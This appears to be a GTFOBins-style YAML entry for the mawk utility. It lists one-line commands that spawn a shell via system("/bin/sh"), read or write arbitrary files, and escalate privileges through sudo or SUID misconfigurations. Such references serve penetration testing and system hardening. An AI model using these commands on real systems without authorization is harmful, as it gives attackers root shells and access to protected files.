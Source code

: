 ```yaml
---
functions:
  shell:
    - code: mawk 'BEGIN {system("/bin/sh")}'
  file-write:
    - code: |
        LFILE=file_to_write
        mawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        mawk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./mawk '//' "$LFILE"
  sudo:
    - code: sudo mawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./mawk 'BEGIN {system("/bin/sh")}'
---
```

